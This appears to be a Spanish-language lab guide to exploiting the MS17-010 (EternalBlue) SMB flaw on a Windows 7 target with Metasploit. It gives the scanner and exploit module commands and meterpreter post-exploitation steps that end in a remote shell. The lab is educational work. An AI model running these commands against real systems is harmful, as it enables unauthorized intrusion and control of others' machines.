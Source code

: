 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner auxiliar para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_10
```
![alt text](./lab01-images/lab01-fig2-msf-console.PNG "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
**utilizar un módulo para explotar la vulnerabilidad ms17_010**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST “Dirección IP del host windows 7 64bits” 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
 
**Post Explotación**
```bash
Sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.PNG "Metasploit framework")
```bash
Getuid
```
![alt text](./lab01-images/lab01-fig6-msf-console.PNG "Metasploit framework")
```Bash
Shell
```
![alt text](./lab01-images/lab01-fig7-msf-console.PNG "Metasploit framework")

**Enlace para mayor información**

[Sobre Metasploit Framework] (https://www.metasploit.com/)

[Comandos usados en  Measploit Framework] (https://www.offensive-security.com/
metasploit-unleashed/msfconsole-commands/)

[Fundamentos de meterpreter] (https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
